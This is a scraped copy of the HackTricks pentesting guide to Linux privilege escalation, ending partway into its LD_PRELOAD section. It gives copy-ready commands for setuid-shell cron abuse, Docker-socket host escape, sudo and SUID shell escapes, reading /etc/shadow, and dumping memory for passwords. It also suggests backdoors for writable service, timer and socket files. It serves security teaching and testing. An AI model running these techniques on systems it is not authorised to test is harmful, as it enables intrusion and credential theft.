


Linux Privilege Escalation - HackTricks

# Linux Privilege Escalation

[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 438.549 438.549' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2519'%3e%3cg data-evernote-id='2520' class='js-evernote-checked'%3e%3cpath d='M409.132 114.573c-19.608-33.596-46.205-60.194-79.798-79.8-33.598-19.607-70.277-29.408-110.063-29.408-39.781 0-76.472 9.804-110.063 29.408-33.596 19.605-60.192 46.204-79.8 79.8C9.803 148.168 0 184.854 0 224.63c0 47.78 13.94 90.745 41.827 128.906 27.884 38.164 63.906 64.572 108.063 79.227 5.14.954 8.945.283 11.419-1.996 2.475-2.282 3.711-5.14 3.711-8.562 0-.571-.049-5.708-.144-15.417a2549.81 2549.81 0 0 1-.144-25.406l-6.567 1.136c-4.187.767-9.469 1.092-15.846 1-6.374-.089-12.991-.757-19.842-1.999-6.854-1.231-13.229-4.086-19.13-8.559-5.898-4.473-10.085-10.328-12.56-17.556l-2.855-6.57c-1.903-4.374-4.899-9.233-8.992-14.559-4.093-5.331-8.232-8.945-12.419-10.848l-1.999-1.431c-1.332-.951-2.568-2.098-3.711-3.429-1.142-1.331-1.997-2.663-2.568-3.997-.572-1.335-.098-2.43 1.427-3.289 1.525-.859 4.281-1.276 8.28-1.276l5.708.853c3.807.763 8.516 3.042 14.133 6.851 5.614 3.806 10.229 8.754 13.846 14.842 4.38 7.806 9.657 13.754 15.846 17.847 6.184 4.093 12.419 6.136 18.699 6.136 6.28 0 11.704-.476 16.274-1.423 4.565-.952 8.848-2.383 12.847-4.285 1.713-12.758 6.377-22.559 13.988-29.41-10.848-1.14-20.601-2.857-29.264-5.14-8.658-2.286-17.605-5.996-26.835-11.14-9.235-5.137-16.896-11.516-22.985-19.126-6.09-7.614-11.088-17.61-14.987-29.979-3.901-12.374-5.852-26.648-5.852-42.826 0-23.035 7.52-42.637 22.557-58.817-7.044-17.318-6.379-36.732 1.997-58.24 5.52-1.715 13.706-.428 24.554 3.853 10.85 4.283 18.794 7.952 23.84 10.994 5.046 3.041 9.089 5.618 12.135 7.708 17.705-4.947 35.976-7.421 54.818-7.421s37.117 2.474 54.823 7.421l10.849-6.849c7.419-4.57 16.18-8.758 26.262-12.565 10.088-3.805 17.802-4.853 23.134-3.138 8.562 21.509 9.325 40.922 2.279 58.24 15.036 16.18 22.559 35.787 22.559 58.817 0 16.178-1.958 30.497-5.853 42.966-3.9 12.471-8.941 22.457-15.125 29.979-6.191 7.521-13.901 13.85-23.131 18.986-9.232 5.14-18.182 8.85-26.84 11.136-8.662 2.286-18.415 4.004-29.263 5.146 9.894 8.562 14.842 22.077 14.842 40.539v60.237c0 3.422 1.19 6.279 3.572 8.562 2.379 2.279 6.136 2.95 11.276 1.995 44.163-14.653 80.185-41.062 108.068-79.226 27.88-38.161 41.825-81.126 41.825-128.906-.01-39.771-9.818-76.454-29.414-110.049z' data-evernote-id='2521' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/README.md)

Do you want to **know** about my **latest modifications**/**additions or you have any suggestion for HackTricks or PEASS**, **join the**  [**PEASS & HackTricks telegram group here**](https://t.me/peass)**.**If you want to **share some tricks with the community** you can also submit **pull requests** to[**https://github.com/carlospolop/hacktricks**](https://github.com/carlospolop/hacktricks**](https://github.com/carlospolop/hacktricks)** that will be reflected in this book. Don't forget to **give ⭐ on the github to motivate me to continue developing this book.

#

System Information

##

OS info

Let's starting gaining some knowledge of the OS running

Copy

1(cat /proc/version ||  uname -a ) 2>/dev/null
2lsb_release -a 2>/dev/null

##

Path

If you **have write permissions on any folder inside the ****`PATH `** variable you may be able to hijacking some libraries or binaries:

Copy

echo  $PATH

##

Env info

Interesting information, passwords or API keys in the environment variables?

Copy

(env || set) 2>/dev/null

##

Kernel exploits

Check the kernel version and if there is some exploit that can be used to escalate privileges

Copy

5cat /proc/version
6uname -a
7searchsploit "Linux Kernel"

You can find a good vulnerable kernel list and some already **compiled exploits** here: https://github.com/lucyoa/kernel-exploits and [exploitdb sploits](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits). Other sites where you can find some **compiled exploits**: https://github.com/bwbwbwbw/linux-exploit-binaries, https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack​

To extract all the vulnerable kernel versions from that web you can do:

Copy

curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null |  grep  "Kernels: "  |  cut -d ":" -f 2 |  cut -d "<" -f 1 |  tr -d ","  |  tr  ' '  '\n'  |  grep -v "^\d\.\d$"  |  sort -u -r |  tr  '\n'  ' '

Tools that could help searching for kernel exploits are:

​[linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester)[linux-exploit-suggester2.pl](https://github.com/jondonas/linux-exploit-suggester-2)[linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py) (execute IN victim,only checks exploits for kernel 2.x)

Always **search the kernel version in Google**, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.

##

CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

Copy

9# make dirtycow stable
10echo 0 > /proc/sys/vm/dirty_writeback_centisecs
11g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
12https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
13https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c

##

Sudo version

Based on the vulnerable sudo versions that appear in:

Copy

searchsploit sudo
You can check if the sudo version is vulnerable using this grep.

Copy

sudo -V |  grep  "Sudo ver"  |  grep  "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

##

Dmesg signature verification failed

Check **smasher2 box of HTB** for an **example** of how this vuln could be exploited

Copy

dmesg 2>/dev/null |  grep  "signature"

##

More system enumeration

Copy

17date 2>/dev/null #Date
18(df -h || lsblk)  #System stats
19lscpu #CPU info
20lpstat -a 2>/dev/null #Printers info

##

Enumerate possible defenses

###

AppArmor

Copy

21if  [  `which aa-status 2>/dev/null`  ];  then
22 aa-status
23  elif  [  `which apparmor_status 2>/dev/null`  ];  then
24 apparmor_status
25  elif  [  `ls -d /etc/apparmor* 2>/dev/null`  ];  then
26  ls -d /etc/apparmor*
27  else
28  echo  "Not found AppArmor"
29fi

###

Grsecurity

Copy

((uname -r |  grep  "\-grsec"  >/dev/null 2>&1 ||  grep  "grsecurity" /etc/sysctl.conf >/dev/null 2>&1)  &&  echo  "Yes"  ||  echo  "Not found grsecurity")

###

PaX

Copy

(which paxctl-ng paxctl >/dev/null 2>&1 &&  echo  "Yes"  ||  echo  "Not found PaX")

###

Execshield

Copy

(grep "exec-shield" /etc/sysctl.conf ||  echo  "Not found Execshield")

###

SElinux

Copy

 (sestatus 2>/dev/null ||  echo  "Not found sestatus")

###

ASLR

Copy

34cat /proc/sys/kernel/randomize_va_space 2>/dev/null
35#If 0, not enabled

#

Drives

Check **what is mounted and unmounted**, where and why. If anything is unmounted you could try to mount it and check for private info

Copy

36ls /dev 2>/dev/null |  grep -i "sd"
37cat /etc/fstab 2>/dev/null |  grep -v "^#"  |  grep -Pv "\W*\#" 2>/dev/null
38#Check if credentials in fstab

39grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null

#

Installed Software

##

Useful software

Enumerate useful binaries

Copy

which nmap aws nc ncat netcat nc.traditional wget  curl  ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc rkt kubectl 2>/dev/null

Also, check if **any compiler is installed**. This is useful if you need to use some kernel exploit as it's recommended to compile it in the machine where you are going to use it (or in one similar)

Copy

(dpkg --list 2>/dev/null |  grep  "compiler"  |  grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null |  grep gcc 2>/dev/null;  which gcc g++ 2>/dev/null ||  locate -r "/gcc[0-9\.-]\+$" 2>/dev/null |  grep -v "/doc/")

##

Vulnerable Software Installed

Check for the **version of the installed packages and services**. Maybe there is some old Nagios version (for example) that could be exploited for escalating privileges… It is recommended to check manually the version of the more suspicious installed software.

Copy

42dpkg -l #Debian
43rpm -qa #Centos

If you have SSH access to the machine you could also use **openVAS** to check for outdated and vulnerable software installed inside the machine.

%3b' data-evernote-id='3790'%3e%3cg data-evernote-id='3791' class='js-evernote-checked'%3e%3cpath d='M12.2 8.98c.06-.01.12-.03.18-.06.06-.02.12-.05.18-.09l.15-.12c.18-.19.29-.45.29-.71 0-.06-.01-.13-.02-.19a.603.603 0 0 0-.06-.19.757.757 0 0 0-.09-.18c-.03-.05-.08-.1-.12-.15-.28-.27-.72-.37-1.09-.21-.13.05-.23.12-.33.21-.04.05-.09.1-.12.15-.04.06-.07.12-.09.18-.03.06-.05.12-.06.19-.01.06-.02.13-.02.19 0 .26.11.52.29.71.1.09.2.16.33.21.12.05.25.08.38.08.06 0 .13-.01.2-.02M13 16v-4a1 1 0 1 0-2 0v4a1 1 0 1 0 2 0M12 3c-4.962 0-9 4.038-9 9 0 4.963 4.038 9 9 9 4.963 0 9-4.037 9-9 0-4.962-4.037-9-9-9m0 20C5.935 23 1 18.065 1 12S5.935 1 12 1c6.066 0 11 4.935 11 11s-4.934 11-11 11' fill-rule='evenodd' data-evernote-id='3792' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)

*Note that these commands will show a lot of information that will mostly be useless, therefore it's recommended some application like OpenVAS or similar that will check if any installed software version is vulnerable to known exploits*

#

Processes

Take a look to **what processes** are being executed and check if any process has **more privileges that it should** (maybe a tomcat being executed by root?)

Copy

44ps aux
45ps -ef
46top -n 1

Also **check your privileges over the processes binaries**, maybe you can overwrite someone.

##

Process monitoring

You can use tools like [**pspy**](https://github.com/DominicBreuker/pspy) to monitor processes. This can be very useful to identify vulnerable processes being executed frequently or when a set of requirements are met.

##

Process memory

Some services of a server save **credentials in clear text inside the memory**. Normally you will need **root privileges** to read the memory of processes that belong to other users, therefore this is usually more useful when you are already root and want to discover more credentials. However, remember that **as a regular user you can read the memory of the processes you own**.

###

GDB

If you have access to the memory of a FTP service (for example) you could get the Heap and search inside of it the credentials.

Copy

47gdb -p <FTP_PROCESS_PID>
48(gdb) info proc mappings
49(gdb) q
50(gdb) dump memory /tmp/mem_ftp <START_HEAD>  <END_HEAD>
51(gdb) q
52strings /tmp/mem_ftp #User and password

###

/proc/$pid/maps & /proc/$pid/mem

For a given process ID, **maps shows how memory is mapped within that processes'** virtual address space; it also shows the **permissions of each mapped region**. The **mem** pseudo file **exposes the processes memory itself**. From the **maps** file we know which **memory regions are readable** and their offsets. We use this information to **seek into the mem file and dump all readable regions** to a file.

Copy

53procdump()
54(

55  cat /proc/$1/maps |  grep -Fv ".so"  |  grep  " 0 "  |  awk  '{print $1}'  |  ( IFS="-"

56  while  read a b;  do
57  dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
58 skip=$((  0x$a )) count=$((  0x$b -  0x$a )) of="$1_mem_$a.bin"
59  done  )
60  cat  $1*.bin >  $1.dump
61  rm  $1*.bin
62)

###

/dev/mem

`/dev/mem ` provides access to the system's **physical** memory, not the virtual memory. The kernels virtual address space can be accessed using /dev/kmem. Typically, `/dev/mem ` is only readable by **root** and **kmem** group.

Copy

strings /dev/mem -n10 | grep -i PASS

###

Tools

To dump a process memory you could use:

- ​[**https://github.com/hajzer/bash-memory-dump**](https://github.com/hajzer/bash-memory-dump) (root) - *You can manually remove root requirements and dump process owned by you*
- Script A.5 from [**https://www.delaat.net/rp/2016-2017/p97/report.pdf**](https://www.delaat.net/rp/2016-2017/p97/report.pdf) (root is required)

##

Credentials from Process Memory

The tool [**https://github.com/huntergregal/mimipenguin**](https://github.com/huntergregal/mimipenguin) will **steal clear text credentials from memory** and from some **well known files**. It requires root privileges to work properly.

|     |     |
| --- | --- |
| Feature | Process Name |
| GDM password (Kali Desktop, Debian Desktop) | gdm-password |
| Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop) | gnome-keyring-daemon |
| LightDM (Ubuntu Desktop) | lightdm |
| VSFTPd (Active FTP Connections) | vsftpd |
| Apache2 (Active HTTP Basic Auth Sessions) | apache2 |
| OpenSSH (Active SSH Sessions - Sudo Usage) | sshd: |

#

Scheduled/Cron jobs

Check if any scheduled job is vulnerable. Maybe you can take advantage of a script being executed by root (wildcard vuln? can modify files that root uses? use symlinks? create specific files in the directory that root uses?).

Copy

64crontab -l
65ls -al /etc/cron* /etc/at*

66cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null |  grep -v "^#"

##

Cron path

For example, inside */etc/crontab* you can find the PATH: *PATH=****/home/user****:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin*

(*Note how the user "user" has writing privileges over /home/user*)

If inside this crontab the root user tries to execute some command or script without setting the path. For example: ** * * * root overwrite.sh*Then, you can get a root shell by using:

Copy

67echo  'cp /bin/bash /tmp/bash; chmod +s /tmp/bash'  > /home/user/overwrite.sh
68#Wait cron job to be executed
69/tmp/bash -p #The effective uid and gid to be set to the real uid and gid

##

Cron using a script with a wildcard (Wildcard Injection)

If a script being executed by root has a “*****” inside a command, you could exploit this to make unexpected things (like privesc). Example:

Copy

rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script

**If the wildcard is preceded of a path like**  ***/some/path/****  **, it's not vulnerable (even**  ***./****  **is not).**

Read the following page for more wildcard exploitation tricks:

[ Wildcards Spare tricks  /linux-unix/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks)

##

Cron script overwriting and symlink

If you **can modify a cron script** executed by root, you can get a shell very easily:

Copy

71echo  'cp /bin/bash /tmp/bash; chmod +s /tmp/bash'  >  </PATH/CRON/SCRIPT>
72#Wait until it is executed
73/tmp/bash -p

If the script executed by root uses a **directory where you have full access**, maybe it could be useful to delete that folder and **create a symlink folder to another one** serving a script controlled by you

Copy

ln -d -s </PATH/TO/POINT>  </PATH/CREATE/FOLDER>

##

Frequent cron jobs

You can monitor the processes to search for processes that are being executed every 1,2 or 5 minutes. Maybe you can take advantage of it and escalate privileges.

For example, to **monitor every 0.1s during 1 minute**, **sort by less executed commands** and deleting the commands that have beeing executed all the time, you can do:

Copy

for i in  $(seq 1 610);  do  ps -e --format cmd >> /tmp/monprocs.tmp;  sleep 0.1;  done;  sort /tmp/monprocs.tmp |  uniq -c |  grep -v "\["  |  sed  '/^.\{200\}./d'  |  sort  |  grep -E -v "\s*[6-9][0-9][0-9]|\s*[0-9][0-9][0-9][0-9]";  rm /tmp/monprocs.tmp;

**You can also use**  [**pspy**](https://github.com/DominicBreuker/pspy/releases) (this will monitor and list every process that start).

#

Services

##

Writable *.service* files

Check if you can write any `.service ` file, if you can, you **could modify it** so it **executes** your **backdoor when** the service is **started**, **restarted** or **stopped** (maybe you will need to wait until the machine is rebooted). For example create your backdoor inside the .service file with **`ExecStart=/tmp/script.sh `**

##

Writable service binaries

Keep in mid that if you have **write permissions over binaries being executed by services**, you can change them for backdoors so when the services get re-executed the backdoors will be executed.

##

systemd PATH - Relative Paths

You can see the PATH used by **systemd** with:

Copy

systemctl show-environment

If you find that you can **write** in any of the folders of the path you may be able to **escalate privileges**. You need to search for **relative paths being used on service configurations** files like:

Copy

77ExecStart=faraday-server
78ExecStart=/bin/sh -ec 'ifup --allow=hotplug %I; ifquery --state %I'
79ExecStop=/bin/sh "uptux-vuln-bin3 -stuff -hello"

Then, create a **executable** with the **same name as the relative path binary** inside the systemd PATH folder you can write, and when the service is asked to execute the vulnerable action (**Start**, **Stop**, **Reload**), your **backdoor will be executed** (unprivileged users usually cannot start/stop services but check if you can using `sudo -l `).

**Learn more about services with ****`man systemd.service `****.**

#

**Timers**

**Timers** are systemd unit files whose name ends in . **timer** that control . service files or events. **Timers** can be used as an alternative to cron. **Timers** have built-in support for calendar time events, monotonic time events, and can be run asynchronously.

You can enumerate all the timers doing:

Copy

systemctl list-timers --all

##

Writable timers

If you can modify a timer you can make it execute some existent systemd.unit (like a `.service ` or a `.target `)

Copy

Unit=backdoor.service
In the documentation you can read what the Unit is:

> The unit to activate when this timer elapses. The argument is a unit name, whose suffix is not ".timer". If not specified, this value defaults to a service that has the same name as the timer unit, except for the suffix. (See above.) It is recommended that the unit name that is activated and the unit name of the timer unit are named identically, except for the suffix.

Therefore, in order to abuse this permissions you would need to:

- Find some systemd unit (like a `.service `) that is **executing a writable binary**
- Find some systemd unit that is **executing a relative path** and you have **writable privileges** over the **systemd PATH** (to impersonate that executable)

**Learn more about timers with ****`man systemd.timer `****.**

##

**Enabling Timer**

In order to enable a timer you need root privileges and to execute:

Copy

82sudo systemctl enable backu2.timer

83Created symlink /etc/systemd/system/multi-user.target.wants/backu2.timer → /lib/systemd/system/backu2.timer.

Note the **timer** is **activated** by creating a symlink to it on `/etc/systemd/system/<WantedBy_section>.wants/<name>.timer `

#

Sockets

In brief, a Unix Socket (technically, the correct name is Unix domain socket, **UDS**) allows **communication between two different processes** on either the same machine or different machines in client-server application frameworks. To be more precise, it’s a way of communicating among computers using a standard Unix descriptors file. (From [here](https://www.linux.com/news/what-socket/)).

Sockets can be configured using `.socket ` files.

**Learn more about sockets with ****`man systemd.socket `****.** Inside this file some several interesting parameters can be configured:

- `ListenStream `, `ListenDatagram `, `ListenSequentialPacket `, `ListenFIFO `, `ListenSpecial `, `ListenNetlink `, `ListenMessageQueue `, `ListenUSBFunction `: This options are different but as summary as used to **indicate where is going to listen** the socket (the path of the AF_UNIX socket file, the IPv4/6 and/or port number to listen...).
- `Accept `: Takes a boolean argument. If **true**, a **service instance is spawned for each incoming connection** and only the connection socket is passed to it. If **false**, all listening sockets themselves are **passed to the started service unit**, and only one service unit is spawned for all connections. This value is ignored for datagram sockets and FIFOs where a single service unit unconditionally handles all incoming traffic. **Defaults to false**. For performance reasons, it is recommended to write new daemons only in a way that is suitable for `Accept=no `.
- `ExecStartPre `, `ExecStartPost `: Takes one or more command lines, which are **executed before** or **after** the listening **sockets**/FIFOs are **created** and bound, respectively. The first token of the command line must be an absolute filename, then followed by arguments for the process.
- `ExecStopPre `, `ExecStopPost `: Additional **commands** that are **executed before** or **after** the listening **sockets**/FIFOs are **closed** and removed, respectively.
- `Service `: Specifies the **service** unit name **to activate** on **incoming traffic**. This setting is only allowed for sockets with Accept=no. It defaults to the service that bears the same name as the socket (with the suffix replaced). In most cases, it should not be necessary to use this option.

##

Writable .socket files

If you find a **writable**  `.socket ` file you can **add** at the begging of the `[Socket] ` section something like: `ExecStartPre=/home/kali/sys/backdoor ` and the backdoor will be executed before the socket is created. Therefore, you will **probably need to wait until the machine is rebooted.***Note that the system must be using that socket file configuration or the backdoor won't be executed*

##

Writable sockets

If you **identify any writable socket** (*now where are talking about Unix Sockets, not about the config **`.socket `** files*), then, **you can communicate** with that socket and maybe exploit a vulnerability.

##

Enumerate Unix Sockets

Copy

netstat -a -p --unix

##

Raw connection

Copy

85#apt-get install netcat-openbsd
86nc -U /tmp/socket #Connect to UNIX-domain stream socket
87nc -uU /tmp/socket #Connect to UNIX-domain datagram socket
88​
89#apt-get install socat

90socat - UNIX-CLIENT:/dev/socket #connect to UNIX-domain socket, irrespective of its type

**Exploitation example:**

[ Socket Command Injection  /linux-unix/privilege-escalation/socket-command-injection](https://book.hacktricks.xyz/linux-unix/privilege-escalation/socket-command-injection)

##

HTTP sockets

Note that there may be some **sockets listening for HTTP** requests (*I'm not talking about .socket files but about the files acting as unix sockets*). You can check this with:

Copy

curl --max-time 2 --unix-socket /pat/to/socket/files http:/index

If the socket **respond with a HTTP** request, then you can **communicate** with it and maybe **exploit some vulnerability**.

##

Writable Docker Socket

The **docker socke**t is typically located at `/var/run/docker.sock ` and is only writable by `root ` user and `docker ` group. If for some reason **you have write permissions** over that socket you can escalate privileges. The following commands can be used to escalate privileges:

Copy

92docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash

93docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh

###

Use docker web API from socket without docker package

If you have access to **docker socket** but you can't use the docker binary (maybe it isn't even installed), you can use directly the web API with `curl `.

The following commands are a example to **create a docker container that mount the root** of the host system and use `socat ` to execute commands into the new docker.

Copy

94# List docker images
95curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
96##[{"Containers":-1,"Created":1588544489,"Id":"sha256:<ImageID>",...}]
97# Send JSON to docker API to create the container

98curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create

99##{"Id":"<NewContainerID>","Warnings":[]}

100curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start

The last step is to use `socat ` to initiate a connection to the container, sending an attach request

Copy

101socat - UNIX-CONNECT:/var/run/docker.sock

102POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1

103Host:
104Connection: Upgrade
105Upgrade: tcp
106​
107#HTTP/1.1 101 UPGRADED
108#Content-Type: application/vnd.docker.raw-stream
109#Connection: Upgrade
110#Upgrade: tcp
Now, you can execute commands on the container from this `socat ` connection.

###

Others

Note that if you have write permissions over the docker socket because you are **inside the group ****`docker `** you have [**more ways to escalate privileges**](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#docker-group).

#

**D-Bus**

D-BUS is an **inter-process communication (IPC) system**, providing a simple yet powerful mechanism **allowing applications to talk to one another**, communicate information and request services. D-BUS was designed from scratch to fulfil the needs of a modern Linux system.

D-BUS, as a full-featured IPC and object system, has several intended uses. First, D-BUS can perform basic application IPC, allowing one process to shuttle data to another—think **UNIX domain sockets on steroids**. Second, D-BUS can facilitate sending events, or signals, through the system, allowing different components in the system to communicate and ultimately to integrate better. For example, a Bluetooth dæmon can send an incoming call signal that your music player can intercept, muting the volume until the call ends. Finally, D-BUS implements a remote object system, letting one application request services and invoke methods from a different object—think CORBA without the complications. ****(From [here](https://www.linuxjournal.com/article/7744)).

D-Bus use an **allow/deny model**, where each message (method call, signal emission, etc.) can be **allowed or denied** according to the sum of all policy rules which match it. Each or rule in the policy should have the `own `, `send_destination ` or `receive_sender ` attribute set.

Part of the policy of `/etc/dbus-1/system.d/wpa_supplicant.conf `:

Copy

111<policy  user="root">
112  <allow  own="fi.w1.wpa_supplicant1"/>
113  <allow  send_destination="fi.w1.wpa_supplicant1"/>
114  <allow  send_interface="fi.w1.wpa_supplicant1"/>
115  <allow  receive_sender="fi.w1.wpa_supplicant1"  receive_type="signal"/>
116</policy>

Therefore, if a policy is allowing your user in anyway to **interact with the bus**, you could be able to exploit it to escalate privileges (maybe just listing for some passwords?).

Note that a **policy** that **doesn't specify** any user or group affects everyone (`<policy> `). Policies to the context "default" affects everyone not affected by other policies (`<policy context="default" `).

**Learn how to enumerate and exploit a D-Bus communication here:**

[ D-Bus Enumeration & Command Injection Privilege Escalation  /linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation)

#

**Network**

It's always interesting to enumerate the network and figure out the position of the machine.

##

Generic enumeration

Copy

117#Hostname, hosts and DNS
118cat /etc/hostname /etc/hosts /etc/resolv.conf
119dnsdomainname
120​
121#Content of /etc/inetd.conf & /etc/xinetd.conf
122cat /etc/inetd.conf /etc/xinetd.conf
123​
124#Interfaces
125cat /etc/networks
126(ifconfig || ip a)
127​
128#Neighbours
129(arp -e || arp -a)
130(route || ip n)
131​
132#Iptables rules

133(timeout 1 iptables -L 2>/dev/null;  cat /etc/iptables/* |  grep -v "^#"  |  grep -Pv "\W*\#" 2>/dev/null)

134​
135#Files used by network services
136lsof -i

##

Open ports

Always check network services running on the machine that you wasn't able to interact with before accessing to it:

Copy

137(netstat -punta || ss --ntpu)
138(netstat -punta || ss --ntpu)  |  grep  "127.0"

##

Sniffing

Check if you can sniff traffic. If you can, you could be able to grab some credentials.

Copy

timeout 1 tcpdump

#

Users

##

Generic Enumeration

Check **who** you are, which **privileges** do you have, which **users** are in the systems, which ones can **login** and which ones have **root privileges:**

Copy

140#Info about me
141id  ||  (whoami && groups) 2>/dev/null
142#List all users
143cat /etc/passwd |  cut -d: -f1
144#List users with console
145cat /etc/passwd |  grep  "sh$"
146#List superusers
147awk -F: '($3 == "0") {print}' /etc/passwd
148#Currently logged users
149w
150#Login history
151last |  tail
152#Last log of each user
153lastlog
154​
155#List all users and their groups

156for i in  $(cut -d":" -f1 /etc/passwd 2>/dev/null);do  id  $i;done 2>/dev/null |  sort

157#Current user PGP keys
158gpg --list-keys 2>/dev/null

##

Big UID

Some Linux versions were affected by a bug that allow users with **UID > INT_MAX** to escalate privileges. More info: [here](https://gitlab.freedesktop.org/polkit/polkit/issues/74), [here](https://github.com/mirchr/security-research/blob/master/vulnerabilities/CVE-2018-19788.sh) and [here](https://twitter.com/paragonsec/status/1071152249529884674).**Exploit it** using: **`systemd-run -t /bin/bash `**

##

Groups

Check if you are a **member of some group** that could grant you root privileges:

[ Interesting Groups - Linux PE  /linux-unix/privilege-escalation/interesting-groups-linux-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe)

##

Clipboard

Check if anything interesting is located inside the clipboard (if possible)

Copy

159if  [  `which xclip 2>/dev/null`  ];  then
160  echo  "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
161  echo  "Highlighted text: "`xclip -o 2>/dev/null`
162  elif  [  `which xsel 2>/dev/null`  ];  then
163  echo  "Clipboard: "`xsel -ob 2>/dev/null`
164  echo  "Highlighted text: "`xsel -o 2>/dev/null`
165  else  echo  "Not found xsel and xclip"
166  fi

##

Password Policy

Copy

grep  "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs

##

Known passwords

If you **know any password** of the environment **try to login as each user** using the password.

##

Su Brute

If don't mind about doing a lot of noise and `su ` and `timeout ` binaries are present on the computer you can try to brute-force user using [su-bruteforce](https://github.com/carlospolop/su-bruteforce).[**Linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) with `-a ` parameter also try to brute-force users.

#

Writable PATH abuses

##

$PATH

If you find that you can **write inside some folder of the $PATH** you may be able to escalate privileges by **creating a backdoor inside the writable folder** with the name of some command that is going to be executed by a different user (root ideally) and that is **not loaded from a folder that is located previous** to your writable folder in $PATH.

#

SUDO and SUID

You could be allowed to execute some command using sudo or they could have the suid bit. Check it using:

Copy

168sudo -l #Check commands you can execute with sudo
169find / -perm -4000 2>/dev/null #Find all SUID binaries

Some **unexpected commands allows you to read and/or write files or even execute command.** For example:

Copy

170sudo  awk  'BEGIN {system("/bin/sh")}'
171sudo  find /etc -exec sh -i \;
172sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
173sudo  tar c a.tar -I ./runme.sh a
174ftp>!/bin/sh
175less>!  <shell_comand>

##

NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

Copy

176$ sudo -l
177​
178User demo may run the following commands on crashlab:
179 (root) NOPASSWD: /usr/bin/vim

In this example the user `demo ` can run `vim ` as `root `, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh `.

Copy

sudo vim -c '!sh'

##

Sudo execution bypassing paths

**Jump** to read other files or use **symlinks**. For example in sudeores file: *hacker10 ALL= (root) /bin/less /var/log/**

Copy

181sudo  less /var/logs/anything
182less>:e /etc/shadow #Jump to read other files using privileged less

Copy

183ln /etc/shadow /var/log/new
184sudo  less /var/log/new #Use symlinks to read any file
If a **wilcard** is used (*), it is even easier:

Copy

185sudo  less /var/log/../../etc/shadow #Read shadow
186sudo  less /var/log/something /etc/shadow #Red 2 files

**Countermeasures**: https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/​

##

Sudo command/SUID binary without command path

If the **sudo permission** is given to a single command **without specifying the path**: *hacker10 ALL= (root) less* you can exploit it by changing the PATH variable

Copy

187export PATH=/tmp:$PATH
188#Put your backdoor in /tmp and name it "less"
189sudo  less

This technique can also be used if a **suid** binary **executes another command without specifying the path to it (always check with**  ***strings***  **the content of a weird SUID binary)**.

​[Payload examples to execute.](https://book.hacktricks.xyz/linux-unix/privilege-escalation/payloads-to-execute)​

##

SUID binary with command path

If the **suid** binary **executes another command specifying the path**, then, you can try to **export a function** named as the command that the suid file is calling.

For example, if a suid binary calls ***/usr/sbin/service apache2 start*** you have to try to create the function and export it:

Copy

190function /usr/sbin/service()  {  cp /bin/bash /tmp &&  chmod +s /tmp/bash && /tmp/bash -p;  }

191export -f /usr/sbin/service
Then, when you call the suid binary, this function will be executed

##

LD_PRELOAD

**LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

